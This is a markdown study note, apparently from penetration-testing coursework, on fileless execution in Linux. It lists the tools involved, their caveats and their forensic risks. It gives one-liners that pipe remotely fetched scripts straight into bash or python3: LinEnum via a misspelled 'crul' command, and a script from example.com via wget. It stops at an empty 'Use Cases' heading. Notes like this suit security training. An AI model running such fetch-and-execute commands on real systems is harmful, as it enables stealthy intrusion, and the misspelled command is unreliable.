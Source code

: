 - **Definition:** Fileless operations execute commands or payloads directly in memory without saving files to disk.
    
- **Mechanism:** Pipes in Linux enable chaining commands and transferring data without storing it on disk.
    
    - Example: 
    ```bash 
    echo 'payload' | bash
    ```
        

#### Tools and Techniques

- Common Linux tools supporting fileless operations:
    
    - **cURL** and **wget**: Fetch and execute payloads directly.
        
    - **Python/Perl/Ruby**: Execute inline scripts using interpreters.
        
    - **Bash scripts**: Combine commands to avoid disk writes.
        

#### Caveats and Considerations

- **Temporary Files:**
    
    - Some payloads, like those using `mkfifo`, may create temporary files or artifacts.
        
    - Execution may appear fileless, but traces could remain on the system.
        
- **Persistence Mechanisms:**
    
    - Fileless does not imply stealth if temporary or residual files are created.
        
    - Monitor processes and memory for signs of malicious activity.
        

#### Benefits and Risks

- **Advantages:**
    
    - Increased stealth for attackers by avoiding direct file creation.
        
    - Useful for quick in-memory execution during penetration tests.
        
- **Risks:**
    
    - Can still leave detectable artifacts depending on the method used.
        
    - May complicate incident response and forensics.

#### Examples of Fileless Execution
- **Fileless Download with cURL**

    Let's take the cURL command we used, and instead of downloading the LinEnum.sh, let's execute it directly using a pipe.
    ```bash
    crul https://raw.githubusercontent.com/LinEnum/master/LinEnum.sh | bash
    ```

- **Fileless Download with wget**
    ```bash
    wget -qO- https://example.com/script.py | python3
    ```
### **Use Cases**
